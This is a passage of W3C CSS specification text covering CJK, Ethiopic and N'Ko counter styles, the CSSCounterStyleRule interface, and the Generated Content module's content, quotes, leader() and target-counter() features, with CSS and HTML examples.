| Digit 6 | 六 U+516D | 陆 U+9646 | 六 U+516D | 陸 U+9678 |
| Digit 7 | 七 U+4E03 | 柒 U+67D2 | 七 U+4E03 | 柒 U+67D2 |
| Digit 8 | 八 U+516B | 捌 U+634C | 八 U+516B | 捌 U+634C |
| Digit 9 | 九 U+4E5D | 玖 U+7396 | 九 U+4E5D | 玖 U+7396 |
| Second Digit Marker | 十 U+5341 | 拾 U+62FE | 十 U+5341 | 拾 U+62FE |
| Third Digit Marker | 百 U+767E | 佰 U+4F70 | 百 U+767E | 佰 U+4F70 |
| Fourth Digit Marker | 千 U+5343 | 仟 U+4EDF | 千 U+5343 | 仟 U+4EDF |
| Second Group Marker | 万 U+4E07 | 万 U+4E07 | 萬 U+842C | 萬 U+842C |
| Third Group Marker | 亿 U+4EBF | 亿 U+4EBF | 億 U+5104 | 億 U+5104 |
| Fourth Group Marker | 万亿 U+4E07 U+4EBF | 万亿 U+4E07 U+4EBF | 兆 U+5146 | 兆 U+5146 |
| Negative Sign | 负 U+8D1F | 负 U+8D1F | 負 U+8CA0 | 負 U+8CA0 |

| Values | Codepoints |  |
| --- | --- | --- |
| japanese | japanese-formal |  |
| Digit 0 | 〇 U+3007 | 零 U+96F6 |
| Digit 1 | 一 U+4E00 | 壱 U+58F1 |
| Digit 2 | 二 U+4E8C | 弐 U+5F10 |
| Digit 3 | 三 U+4E09 | 参 U+53C2 |
| Digit 4 | 四 U+56DB | 四 U+56DB |
| Digit 5 | 五 U+4E94 | 伍 U+4f0D |
| Digit 6 | 六 U+516D | 六 U+516D |
| Digit 7 | 七 U+4E03 | 七 U+4E03 |
| Digit 8 | 八 U+516B | 八 U+516B |
| Digit 9 | 九 U+4E5D | 九 U+4E5D |
| Second Digit Marker | 十 U+5341 | 拾 U+62FE |
| Third Digit Marker | 百 U+767E | 百 U+767E |
| Fourth Digit Marker | 千 U+5343 | 阡 U+9621 |
| Second Group Marker | 万 U+4E07 | 萬 U+842C |
| Third Group Marker | 億 U+5104 | 億 U+5104 |
| Fourth Group Marker | 兆 U+5146 | 兆 U+5146 |
| Negative Sign | マイナス U+30DE U+30A4 U+30CA U+30B9 |  |

| Values | Codepoints |  |  |
| --- | --- | --- | --- |
| korean-hangul | korean-hanja | korean-hanja-formal |  |
| Digit 0 | 영 U+C601 | 零 U+96F6 | 零 U+96F6 |
| Digit 1 | 일 U+C77C | 一 U+4E00 | 壹 U+58F9 |
| Digit 2 | 이 U+C774 | 二 U+4E8C | 貳 U+8CB3 |
| Digit 3 | 삼 U+C0BC | 三 U+4E09 | 參 U+53C3 |
| Digit 4 | 사 U+C0AC | 四 U+56DB | 四 U+56DB |
| Digit 5 | 오 U+C624 | 五 U+4E94 | 五 U+4E94 |
| Digit 6 | 육 U+C721 | 六 U+516D | 六 U+516D |
| Digit 7 | 칠 U+CE60 | 七 U+4E03 | 七 U+4E03 |
| Digit 8 | 팔 U+D314 | 八 U+516B | 八 U+516B |
| Digit 9 | 구 U+AD6C | 九 U+4E5D | 九 U+4E5D |
| Second Digit Marker | 십 U+C2ED | 十 U+5341 | 拾 U+62FE |
| Third Digit Marker | 백 U+BC31 | 百 U+767E | 百 U+767E |
| Fourth Digit Marker | 천 U+CC9C | 千 U+5343 | 仟 U+4EDF |
| Second Group Marker | 만 U+B9CC | 萬 U+842C | 萬 U+842C |
| Third Group Marker | 억 U+C5B5 | 億 U+5104 | 億 U+5104 |
| Fourth Group Marker | 조 U+C870 | 兆 U+5146 | 兆 U+5146 |
| Negative Sign | 마이너스 U+B9C8 U+C774 U+B108 U+C2A4 |  |  |

#### 7.2.  Ethiopic Numeric Counter Style: `ethiopic-numeric` {#css-counter-styles-3:ethiopic-numeric-counter-style}

The **ethiopic-numeric** counter style is defined for all positive non-zero numbers. The following algorithm converts decimal digits to ethiopic numbers:

1. If the number is 1, return "፩" (U+1369).
2. Split the number into groups of two digits, starting with the least significant decimal digit.
3. Index each group sequentially, starting from the least significant as group number zero.
4. If the group has the value zero, or if the group is the most significant one and has the value 1, or if the group has an odd index (as given in the previous step) and has the value 1, then remove the digits (but leave the group, so it still has a separator appended below).
5. For each remaining digit, substitute the relevant ethiopic character from the list below.

   | Tens | Units |  |  |  |  |
   | --- | --- | --- | --- | --- | --- |
   | Values | Codepoints | Values | Codepoints |  |  |
   | 10 | ፲ | U+1372 | 1 | ፩ | U+1369 |
   | 20 | ፳ | U+1373 | 2 | ፪ | U+136A |
   | 30 | ፴ | U+1374 | 3 | ፫ | U+136B |
   | 40 | ፵ | U+1375 | 4 | ፬ | U+136C |
   | 50 | ፶ | U+1376 | 5 | ፭ | U+136D |
   | 60 | ፷ | U+1377 | 6 | ፮ | U+136E |
   | 70 | ፸ | U+1378 | 7 | ፯ | U+136F |
   | 80 | ፹ | U+1379 | 8 | ፰ | U+1370 |
   | 90 | ፺ | U+137A | 9 | ፱ | U+1371 |
6. For each group with an odd index (as given in the second step), except groups which originally had a value of zero, append ፻ U+137B.
7. For each group with an even index (as given in the second step), except the group with index 0, append ፼ U+137C.
8. Concatenate the groups into one string, and return it.

For this system, the name is "ethiopic-numeric", the `range` is `1 infinite`, the `suffix` is `"/ "` (U+002F SOLIDUS followed by a U+0020 SPACE), and the rest of the descriptors have their initial value.

> **Example:** The decimal number 100, in ethiopic, is ፻ U+137B
>
> The decimal number 78010092, in ethiopic, is ፸፰፻፩፼፺፪ U+1378 U+1370 U+137B U+1369 U+137C U+137A U+136A.
>
> The decimal number 780100000092, in ethiopic, is ፸፰፻፩፼፼፺፪ U+1378 U+1370 U+137B U+1369 U+137C U+137C U+137A U+136A.

#### 7.3.  N’Ko Numeric Counter Style: `nko-ordinal` {#css-counter-styles-3:nko-numeric-counter-style}

The **nko-ordinal** counter style is defined for all numbers. It is identical to the `nko-cardinal` style defined in [predefined-counter-styles], except the final digit has a combining dot either above or below it, depending on that digit’s value.

That is, it is defined as the following, with the additional caveat afterwards:

```
@counter-style nko-ordinal {
  system: numeric;
  symbols: "\7c0" "\7c1" "\7c2" "\7c3" "\7c4" "\7c5" "\7c6" "\7c7" "\7c8" "\7c9";
           /* "߀" "߁" "߂" "߃" "߄" "߅" "߆" "߇" "߈" "߉" */
  suffix: " - "; (U+002D HYPHEN MINUS, surrounded by spaces)
}
```

After generating the initial representation for the counter value, append to that either a U+0307 COMBINING DOT ABOVE (if the final digit has the value 1) or a U+0323 COMBINING DOT BELOW (otherwise). Otherwise, generate a counter representation as normal.

### 8.  Additional “Ready-made” Counter Styles {#css-counter-styles-3:additional-predefined}

The [Internationalization Working Group](https://www.w3.org/International/) maintains a collection of additional `@counter-style` rules for various world languages in [Ready-made Counter Styles](https://www.w3.org/TR/predefined-counter-styles/). [predefined-counter-styles]

As with the counter styles defined in [§ 6 Simple Predefined Counter Styles](#css-counter-styles-3:predefined-counters), UAs must include these in their UA stylesheet (or at least act as if these rules were defined at that level).

> **Note:** Authors can use the [Ready-made Counter Styles](https://www.w3.org/TR/predefined-counter-styles/) even in UAs that don’t support them by copying the rules directly into their style sheets.

### 9. APIs {#css-counter-styles-3:apis}

#### 9.1.  Extensions to the `CSSRule` interface {#css-counter-styles-3:extensions-to-cssrule-interface}

The `CSSRule` interface is extended as follows:

```webidl
partial interface CSSRule {
    const unsigned short COUNTER_STYLE_RULE = 11;
};
```

#### 9.2.  The `CSSCounterStyleRule` interface {#css-counter-styles-3:the-csscounterstylerule-interface}

The CSSCounterStyleRule interface represents a `@counter-style` rule.

```webidl
[Exposed=Window]
interface CSSCounterStyleRule : CSSRule {
  attribute CSSOMString name;
  attribute CSSOMString system;
  attribute CSSOMString symbols;
  attribute CSSOMString additiveSymbols;
  attribute CSSOMString negative;
  attribute CSSOMString prefix;
  attribute CSSOMString suffix;
  attribute CSSOMString range;
  attribute CSSOMString pad;
  attribute CSSOMString speakAs;
  attribute CSSOMString fallback;
};
```

****`name`**,  of type CSSOMString**

: The *name* attribute on getting must return a `CSSOMString` object that contains the serialization of the `<counter-style-name>` defined for the associated rule.

  On setting the *name* attribute, run the following steps:

  1. If the value is an ASCII case-insensitive match for "none" or one of the non-overridable counter styles, do nothing and return.
  2. If the value is an ASCII case-insensitive match for any of the predefined counter styles, lowercase it.
  3. Replace the associated rule’s name with an identifier equal to the value.

****`system`**,  of type CSSOMString **`symbols`**,  of type CSSOMString **`additiveSymbols`**,  of type CSSOMString **`negative`**,  of type CSSOMString **`prefix`**,  of type CSSOMString **`suffix`**,  of type CSSOMString **`range`**,  of type CSSOMString **`pad`**,  of type CSSOMString **`speakAs`**,  of type CSSOMString **`fallback`**,  of type CSSOMString**

: The remaining attributes on getting must return a `CSSOMString` object that contains the serialization of the associated descriptor defined for the associated rule. If the descriptor was not specified in the associated rule, the attribute must return an empty string.

  On setting, run the following steps:

  1. parse the given value as the descriptor associated with the attribute.
  2. If the result is invalid according to the given descriptor’s grammar, or would cause the `@counter-style` rule to not define a counter style, do nothing and abort these steps. (For example, some systems require the `symbols` descriptor to contain two values.)
  3. If the attribute being set is system, and the new value would change the algorithm used, do nothing and abort these steps. It’s okay to change an aspect of the algorithm, like the first symbol value of a `fixed` system.
  4. Set the descriptor to the value.

### 10.  Sample style sheet for HTML {#css-counter-styles-3:ua-stylesheet}

This section is informative, not normative. HTML itself defines the styles that apply to its elements, and in some cases defers to the user agent’s discretion.

```
details > summary {
  display: list-item;
  list-style: disclosure-closed inside;
}

details[open] > summary {
  list-style: disclosure-open inside;
}
```

---

## CSS Generated Content Module Level 3 {#css-content-3}

- **Shortname:** `css-content-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-content-3/](https://drafts.csswg.org/css-content-3/)
- **Published TR:** [https://www.w3.org/TR/css-content-3/](https://www.w3.org/TR/css-content-3/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-21

### Introduction {#css-content-3:intro}

Authors sometimes want user agents to render content that does not come from the document tree. One familiar example of this is numbered headings; the author does not want to mark the numbers up explicitly, they want the user agent to generate them automatically. Counters and markers are used to achieve these effects.

> **Example:** ```
> h1::before { content: counter(section) ": "; }
> ```

Similarly, authors may want the user agent to insert the word "Figure" before the caption of a figure, or "Chapter 7" on a line before the seventh chapter title.

> **Example:** ```
> chapter { counter-increment: chapter; }
> chapter > title::before { content: "Chapter " counter(chapter) "\A"; }
> ```

Another common effect is replacing elements with images or other multimedia content. Since not all user agents support all multimedia formats, fallbacks may have to be provided.

> **Example:** ```
> /* Replace <logo> elements with the site's logo, using a format
>  * supported by the UA */
> logo { content: url(logo.mov), url(logo.mng), url(logo.png), none; }
>
> /* Replace <figure> elements with the referenced document, or,
>  * failing that, with either the contents of the alt attribute or the
>  * contents of the element itself if there is no alt attribute */
> figure[alt] { content: attr(href url), attr(alt); }
> figure:not([alt]) { content: attr(href url), contents; }
> ```

#### Value Definitions {#css-content-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 1.  Inserting and Replacing Content: the `content` property {#css-content-3:content-property}

| Field | Value |
| --- | --- |
| Name: | **content** |
| [Value:](#css-values-4:value-defs) | normal \| none \| [ `<content-replacement>` \| `<content-list>` ] [/ `<alt-text>` ]? |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements, tree-abiding pseudo-elements, and page margin boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | See prose below |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

*User agents are expected to support this property on all media, including non-visual ones.*

The `content` property specifies the box’s contents for stylistic purposes. It can replace the box with an image (turning it into a replaced element), or provide it with arbitrary inline-level content (text and images). It can also, for some types of boxes, control whether the box renders at all.

```css
<content-replacement> = <image>
<content-list> = [ <string> | <image> | <attr()> | contents
                | <quote> | <leader()> | <target> | <string()> | <content()>
                | <counter> | <symbolic-glyph> ]+
<alt-text> = [ <string> | <counter> | <attr()> ]+
```

Values have the following meanings:

****normal****

: For a regular element or page-margin box, this computes to `contents`.

  For `::before` and `::after`, this computes to `none`.

  For `::marker`, `::placeholder`, and `::file-selector-button`, this computes to itself (`normal`).

****none****

: On regular elements, this behaves as `normal`.

  On pseudo-elements it inhibits the creation of the pseudo-element as if it had `display: none`.

  In neither case does it prevent any pseudo-elements which have this element or pseudo-element as an originating element from being generated.

****`<content-replacement>`****

: Makes the element or pseudo-element a replaced element, filled with the specified `<image>`. (In effect, it becomes equivalent to an HTML `img` element.) Its normal contents are suppressed and do not generate boxes, as if they were `display: none`.

  If the `<image>` represents an invalid image, the behavior is undefined.

  > **Issue:** Possible ways of handling an invalid image include a) render it as an image with zero natural width and height, filled with transparent black, b) render a broken image icon, c) render the alt text, if any, or the contents, if not. [[Issue #218]](https://github.com/w3c/csswg-drafts/issues/218)

  > **Note:** Replaced elements do not have `::before` or `::after` pseudo-elements; the `content` property replaces their entire contents.

  > **Issue:** This value has historically been treated as `<content-list>` on `::before` and `::after`. There might be a Web-compat requirement on this, so these pseudo-elements might need an exception. It might be possible to limit this exception to cases without "alt text". [[Issue #2889]](https://github.com/w3c/csswg-drafts/issues/2889)

****`<content-list>`****

: On regular elements, this value has no effect.

  On pseudo-elements and page-margin boxes, it replaces the box’s contents with the specified content. (Its normal contents are suppressed, as if they were `display: none`.)

  Each value specified contributes an inline-level box to the element’s contents, in the order specified. For `<image>`, this is an inline anonymous replaced element; for the others, it’s an anonymous inline run of text.

  > **Note:** If the value of `<content-list>` is a single `<image>`, it must instead be interpreted as a `<content-replacement>`.

****`<alt-text>`****

: Specifies the “alternative content” for the element, which is supplied to the accessibility tree for rendering to speech, braille, etc. instead of the “visual content” provided before the slash. See [§ 1.2 Alternative Text for Accessibility](#css-content-3:alt) for details. If omitted, the element has no “alternative content”; the main content is used for all media.

> **Example:** To correctly use `<counter>` in "alt text" in unsupported browsers one should specify `content` property twice. First, a fallback without counter in "alt text". Second, use counter in "alt text".
>
> ```
> ::before {
>   content: "Chapter" counter(chapter);
>   content: "Chapter" counter(chapter) / "Chapter" counter(chapter);
> }
> ```

> **Issue:** Should the contents keyword be replaced with `content()`?

#### 1.1.  Accessibility of Generated Content {#css-content-3:accessibility}

Generated content should be searchable, selectable, and available to assistive technologies. The `content` property applies to speech and generated content must be rendered for speech output. [CSS3-SPEECH]

> **Issue:** Start work on an AAM for CSS.

#### 1.2.  Alternative Text for Accessibility {#css-content-3:alt}

Content intended for visual media sometimes needs alternative text for speech output or other non-visual mediums. The `content` property thus accepts alternative text to be specified after a slash (`/`) after the last `<content-list>`. If such alternative text is provided, it must be used for speech output instead.

This allows, for example, purely decorative text to be elided in speech output (by providing the empty string as alternative text), and allows authors to provide more readable alternatives to images, icons, or text-encoded symbols.

> **Example:** Here the content property is an image, so the alt value is required to provide alternative text.
>
> ```
> .new::before {
>  content: url(./img/star.png) / "New!";
>   /* or a localized attribute from the DOM: attr("data-alt") */
> }
> ```

> **Example:** If the pseudo-element is purely decorative and its function is covered elsewhere, setting alt to the empty string can avoid reading out the decorative element. Here the ARIA attribute will be spoken as "collapsed". Without the empty string alt value, the content would also be spoken as "Black right-pointing pointer".
>
> ```
> .expandable::before {
>  content: "\25BA" / "";
> /* a.k.a. ► */
>  /* aria-expanded="false" already in DOM,
>    so this pseudo-element is decorative */
> }
> ```

### 2.  Basic Strings and Images: `<string>`, `<attr()>`, `<counter>`, `<symbolic-glyph>`, and `<image>` values {#css-content-3:strings}

****`<string>`****

: Represents an anonymous inline box filled with the specified text.

  > **Note:** White space in the string is handled the same as in literal text, and controlled by the properties in [CSS-TEXT-3] and elsewhere. In particular, white space character can collapse, even across multiple strings, such as in `content: "First " " Second";`, which by default will render similar to `"First Second"` (with a single visible space between the two words).

**`<attr()>`**

: The **attr()** functional notation represents the string stored as the specified attribute’s value. Its argument is a CSS qualified name (`qname`) representing the attribute name and namespace, if any. See [CSS3-NAMESPACE].

  > **Note:** As in [attribute selectors](#selectors-4:attrnmsp), attribute names without an explicit namespace do not associate with any default namespace.

**`<counter>`**

: See [CSS Lists 3 § 4 Automatic Numbering With Counters](#css-lists-3:auto-numbering).

**`<symbolic-glyph>`**

: The predefined symbolic counter style, without its `prefix` or `suffix`, as drawn by the UA for `list-style-type`.

  > **Example:** A disclosure widget can point its marker at the widget’s state without involving a counter:
  >
  > ```
  > summary::marker { content: disclosure-closed; }
  > details[open] > summary::marker { content: disclosure-open; }
  > ```

  > **Note:** Only the "symbolic" counter styles are allowed, as they’re the only styles that don’t depend on a counter value at all. Only the predefined ones are allowed, as an author-defined symbolic style can just be copied over as a string or image, while the predefined ones might be UA-specific images that can’t be directly referenced.

****`<image>`****

: Represents an anonymous inline replaced element filled with the specified `<image>`.

  If an `<image>` represents an invalid image, the user agent must (consistently) do one of the following:

  - “Skip” the `<image>`, generating nothing for it.
  - Display some indication that the image can’t be displayed in place of the `<image>`, such as a “broken image” icon.

### 3.  Elemental Content: the `contents` keyword {#css-content-3:element-content}

****contents****

: The element’s descendants. Since this can only be used once per element (you can’t duplicate the children if, e.g., one is a plugin or form control), it is handled as follows:

  **If set on the element:**

  : Always honoured. Note that this is the default, since the initial value of `content` is `normal` and `normal` computes to `contents` on an element.

  **If set on one of the element’s other pseudo-elements:**

  : Check to see that it is not set on a "previous" pseudo-element, in the following order, depth first:

    1. the element itself
    2. ::before
    3. ::after

    > **Issue:** Should this behave as an empty string on pseudo-elements?

    If it is already used, then it evaluates to nothing (like `none`). Only pseudo-elements that are actually generated are checked.

> **Example:** In the following case:
>
> ```
> foo { content: normal; }	/* this is the initial value */
> foo::after { content: contents; }
> ```
>
> ...the element’s `content` property would compute to `contents` and the `::after` pseudo-element would have no contents (equivalent to `none`) and thus would not appear.
>
> ```
> foo { content: none; }
> foo::after { content: contents; }
> ```
>
> But in this example, the ::after pseudo-element will contain the contents of the foo element.

> **Issue:** Use cases for suppressing the content on the element and using it in a pseudo-element would be welcome.

> **Note:** While it is useless to include `contents` twice in a single `content` property, that is not a parse error. The second occurrence simply has no effect, as it has already been used. It is also not a parse error to use it on a `::marker` pseudo-element, it is only during the rendering stage that it gets treated like `none`.

> **Issue:** Do we need the statement about marker pseudo-elements here? Or is this legacy from the old version of the spec?

### 4.  Quotation Marks {#css-content-3:quotes}

The `quotes` property, which defines the quotation mark system of an element, in conjunction with the various `*-quote` values of the `content` property, which insert corresponding quotation marks as generated content, can be used to automatically insert opening and closing quotation marks, such as for the HTML `q` element.

#### 4.1.  Quotation Mark System: the `quotes` property {#css-content-3:quotes-property}

| Field | Value |
| --- | --- |
| Name: | **quotes** |
| [Value:](#css-values-4:value-defs) | auto \| none \| bikeshed-this \| [ `<string>` <string> ]+ |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`, the keyword `auto`, a content language, or a list, each item a pair of string values |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

*User agents are expected to support this property on all media, including non-visual ones.*

This property specifies the **quotation mark system** for the element, defining how the `content` property’s `open-quote` and `close-quote` values behave. See [§ 4.2 Inserting Quotation Marks: the *-quote keywords](#css-content-3:quote-values). Values have the following meanings:

****none****

: The `open-quote` and `close-quote` values of the `content` property produce no quotations marks, as if they were `no-open-quote` and `no-close-quote` respectively.

****auto****

: A typographically appropriate quotation mark system is automatically chosen by the UA based on the content language of the parent (or, if there is no parent, of the element itself). Computes to itself (the keyword `auto`).

  > **Note:** The Unicode Common Locale Data Repository [CLDR] maintains information on typographically appropriate quotation marks. UAs can use other sources of information as well, particularly as typographic preferences can vary; however it is encouraged to submit any improvements to Unicode so that the entire software ecosystem can benefit.

****bikeshed-this****

: If the inherited value is `auto`, computes to the content language of the parent, which behaves like `auto` as resolved by that content language. Otherwise, computes to the inherited value.

  A content language computed value serializes as `bikeshed-this`.

  > **Issue:** This needs a name. Maybe `match-parent`? [[Issue #5478]](https://github.com/w3c/csswg-drafts/issues/5478)

**[ `<string>` <string> ]+**

: The quotation mark system is defined as the specified list of pairs of quotation marks (opening and closing). The first pair represents the outermost level of quotation, the second pair the next level of embedding, etc. Within a pair, the `open-quote` value refers to the first `<string>`, `close-quote` refers to the second.

#### 4.2.  Inserting Quotation Marks: the `*-quote` keywords {#css-content-3:quote-values}

```css
<quote> = open-quote | close-quote | no-open-quote | no-close-quote
```

****open-quote** **close-quote****

: These values are replaced by the appropriate string as defined by the `quotes` property, and increments (for `open-quote`) or decrements (for `close-quote`) the level of nesting for quotes.

****no-open-quote** **no-close-quote****

: Inserts nothing (as in `none`), but increments (for `no-open-quote`) or decrements (for `no-close-quote`) the level of nesting for quotes.

Quotation marks can be inserted in appropriate places in a document with the `open-quote` and `close-quote` values of the `content` property. Each occurrence of `open-quote` or `close-quote` is replaced by a quotation mark string as defined by the quotation mark system specified by the `quotes` property, based on the depth of nesting.

Which pair of quotes is used depends on the nesting level of quotes (the **quote depth**): the number of occurrences of `open-quote` in all generated text before the current occurrence, minus the number of occurrences of `close-quote` in all generated text before and including the current occurence. If the depth is 0, the first pair is used, if the depth is 1, the second pair is used, etc. If the depth is greater than the number of pairs, the last pair is repeated.

> **Note:** Quote depth is independent of the nesting of the source document or the formatting structure. Also, like [counter inheritance](#css-lists-3:inheriting-counters), it operates on the “flattened element tree” in the context of the [DOM].

A `close-quote` or `no-close-quote` that would make the quote depth negative is in error and is ignored (at rendering time): the depth stays at 0 and no quote mark is inserted (although the rest of the `content` property’s value is still inserted).

> **Example:** Some typographic styles require open quotation marks to be repeated before every paragraph of a quote spanning several paragraphs, but only the last paragraph ends with a closing quotation mark. In CSS, this can be achieved by inserting "phantom" closing quotes. The keyword `no-close-quote` decrements the quoting level, but does not insert a quotation mark.
>
> The following style sheet puts opening quotation marks on every paragraph in a `blockquote`, and inserts a single closing quote at the end:
>
> ```
> blockquote p::before { content: open-quote }
> blockquote p::after { content: no-close-quote }
> blockquote p:last-child::after { content: close-quote }
> ```
>
> For symmetry, there is also a `no-open-quote` keyword, which inserts nothing, but increments the quotation depth by one.

> **Note:** If a quotation is in a different language than the surrounding text, it is customary to quote the text with the quote marks of the language of the surrounding text, not the language of the quotation itself.

> **Example:** For example, French inside English:
>
> > The device of the order of the garter is “Honi soit qui mal y pense.”
>
> English inside French:
>
> > Il disait: « Il faut mettre l’action en ‹ fast forward ›. »
>
> A style sheet like the following will set the `quotes` property so that `open-quote` and `close-quote` will work correctly on all elements. These rules are for documents that contain only English, French, or both. One rule is needed for every additional language. Note the use of the child combinator (">") to set quotes on elements based on the language of the surrounding text:
>
> ```
> :lang(fr) > * { quotes: "\00AB\2005" "\2005\00BB" "\2039\2005" "\2005\203A" }
> :lang(en) > * { quotes: "\201C" "\201D" "\2018" "\2019" }
> ```
>
> The quotation marks are shown here in a form that most people will be able to type. If you can type them directly, they will look like this:
>
> ```
> :lang(fr) > * { quotes: "« " " »" "‹ " " ›" }
> :lang(en) > * { quotes: "“" "”" "‘" "’" }
> ```

> **Example:** For example, applying the following style sheet:
>
> ```
> /* Specify pairs of quotes for two levels in two languages */
> :lang(en) > q { quotes: '"' '"' "'" "'" }
> :lang(no) > q { quotes: "«" "»" "’" "’" }
>
> /* Insert quotes before and after Q element content */
> q::before { content: open-quote }
> q::after	{ content: close-quote }
> ```
>
> to the following HTML fragment:
>
> ```
> <html lang="en">
>   <head>
>    <title>Quotes</title>
>   </head>
>   <body>
>    <p><q>Quote me!</q></p>
>   </body>
> </html>
> ```
>
> would allow a user agent to produce:
>
> ```
> "Quote me!"
> ```
>
> while this HTML fragment:
>
> ```
> <html lang="no">
>   <head>
>    <title>Quotes</title>
>   </head>
>   <body>
>    <p><q>Trøndere gråter når <q>Vinsjan på kaia</q> blir deklamert.</q></p>
>   </body>
> </html>
> ```
>
> would produce:
>
> ```
> «Trøndere gråter når ’Vinsjan på kaia’ blir deklamert.»
> ```

### 5.  Leaders {#css-content-3:leaders}

A leader, sometimes known as a tab leader or a dot leader, is a repeating pattern used to visually connect content across horizontal spaces. They are most commonly used in tables of contents, between titles and page numbers. The `leader()` function, as a value for the content property, is used to create leaders in CSS. This function takes a string (the leader string), which describes the repeating pattern for the leader.

#### 5.1.  The `leader()` function {#css-content-3:leader-function}

****leader( `<leader-type>` )****

: Inserts a leader. See the section on [leaders](#css-content-3:leaders) for more information.

```css
leader() = leader( <leader-type> )
<leader-type> = dotted | solid | space | <string>
```

Three keywords are shorthand values for common strings:

****dotted****

: Equivalent to `leader(".")`

****solid****

: Equivalent to `leader("_")`

****space****

: Equivalent to `leader(" ")`

****`<string>`****

: Issue: Define this.

> **Example:** ```
> ol.toc a::after {
>   content: leader('.') target-counter(attr(href), page);
> }
>
> <h1>Table of Contents</h1>
> <ol class="toc">
> <li><a href="#chapter1">Loomings</a></li>
> <li><a href="#chapter2">The Carpet-Bag</a></li>
> <li><a href="#chapter3">The Spouter-Inn</a></li>
> </ol>
> ```
>
> This might result in:
>
> ```
> Table of Contents
>
> 1. Loomings.....................1
> 2. The Carpet-Bag...............9
> 3. The Spouter-Inn.............13
> ```

> **Issue:** Do leaders depend on the assumption that the content after the leader is right-aligned (end-aligned)?

#### 5.2.  Rendering leaders {#css-content-3:leader-rules}

Consider a line which contains the content before the leader (the “before content”), the leader, and the content after the leader (the “after content”). Leaders obey the following rules:

1. The leader string must appear in full at least once.
2. The leader should be as long as possible
3. Visible characters in leaders should vertically align with each other when possible.
4. Line break characters in the leader string must be ignored.
5. White space in the leader string follows normal CSS rules.
6. A leader only appears between the start content and the end content.
7. A leader only appears on a single line, even if the before content and after content are on different lines.
8. A leader can’t be the only thing on a line.

#### 5.3.  Procedure for rendering leaders {#css-content-3:leader-alignment}

1. Lay out the *before content*, until reaching the line where the *before content* ends.

   ```
   BBBBBBBBBB
   BBB
   ```
2. The leader string consists of one or more glyphs, and is thus an inline box. A leader is a row of these boxes, drawn from the end edge to the start edge, where only those boxes not overlaid by the before or after content. On this line, draw the leader string, starting from the end edge, repeating as many times as possible until reaching the start edge.

   ```
   BBBBBBBBBB
   ..........
   ```
3. Draw the before and after content on top of the leader. If any part of the *before content* or *after content* overlaps a glyph in a leader string box, that glyph is not displayed.

   ```
   BBBBBBBBBB
   BBB....AAA
   ```
4. If one full copy of the leader string is not visible:

   ```
   BBBBBBB
   BBBBBBA
   ```

   Insert a line break after the *before content*, draw the leader on the next line, and draw the *after content* on top, and hide any leader strings that are not fully displayed.

   ```
   BBBBBBB
   BBBBBB
   ......A
   ```

> **Issue:** what to do if *after content* is wider than the line box?

> **Issue:** Leaders don’t quite work in table layouts. How can we fix this?


Procedure for drawing leaders


Procedure for drawing leaders when the content doesn’t fit on a single line

### 6.  Cross References {#css-content-3:cross-references}

Many documents contain internal references:

> **Example:** - See chapter 7
> - in section 4.1
> - on page 23

Three new values for the content property are used to automatically create these types of cross-references: `target-counter()`, `target-counters()`, and `target-text()`. Each of these displays information obtained from the target end of a link.

```css
<target> = <target-counter()> | <target-counters()> | <target-text()>
```

See sections below for details on each of these.

#### 6.1.  The `target-counter()` function {#css-content-3:target-counter}

```css
target-counter() = target-counter( [ <string> | <url> ] , <custom-ident> , <counter-style>? )
```

The `target-counter()` function retrieves the value of the innermost counter with a given name. The required arguments are the url of the target and the name of the counter. An optional counter-style argument can be used to format the result.

These functions only take a fragment URL which points to a location in the current document. If there’s no fragment, if the ID referenced isn’t there, or if the URL points to an outside document, the user agent must treat that as an error.

> **Issue:** what should error handling be?

> **Issue:** restrict syntactically to local references for now.

> **Example:** HTML:
>
> ```
> …which will be discussed on page <a href="#chapter4_sec2"></a>.
> ```
>
> CSS:
>
> ```
> a::after { content: target-counter(attr(href url), page) }
> ```
>
> Result:
>
> ```
> …which will be discussed on page 137.
> ```

> **Example:** Page numbers in tables of contents can be generated automatically:
>
> HTML:
>
> ```
> <nav>
>   <ol>
>    <li class="frontmatter"><a href="#pref_01">Preface</a></li>
>    <li class="frontmatter"><a href="#intr_01">Introduction</a></li>
>    <li class="bodymatter"><a href="#chap_01">Chapter One</a></li>
>   </ol>
> </nav>
> ```
>
> CSS:
>
> ```
> .frontmatter a::after { content: leader('.') target-counter(attr(href url), page, lower-roman) }
> .bodymatter a::after { content: leader('.') target-counter(attr(href url), page, decimal) }
> ```
>
> Result:
>
> ```
> Preface.............vii
> Introduction.........xi
> Chapter One...........1
> ```

#### 6.2.  The `target-counters()` function {#css-content-3:target-counters}

This functions fetches the value of all counters of a given name from the end of a link, and formats them by inserting a given string between the value of each nested counter.

```css
target-counters() = target-counters( [ <string> | <url> ] , <custom-ident> , <string> , <counter-style>? )
```

> **Example:** ```
> I have not found a compelling example for target-counters() yet.
> ```
>
> > **Issue:** found a compelling example, in CSS specs. Do something.

#### 6.3.  The `target-text()` function {#css-content-3:target-text}

The `target-text()` function retrieves the text value of the element referred to by the URL. An optional second argument specifies what content is retrieved, using the same values as the `string-set` property above.

```css
target-text() = target-text( [ <string> | <url> ] , [ content | before | after | first-letter ]? )
```

> **Issue:** A simpler syntax has been proposed by fantasai: [http://lists.w3.org/Archives/Public/www-style/2012Feb/0745.html](http://lists.w3.org/Archives/Public/www-style/2012Feb/0745.html)

> **Example:** ```
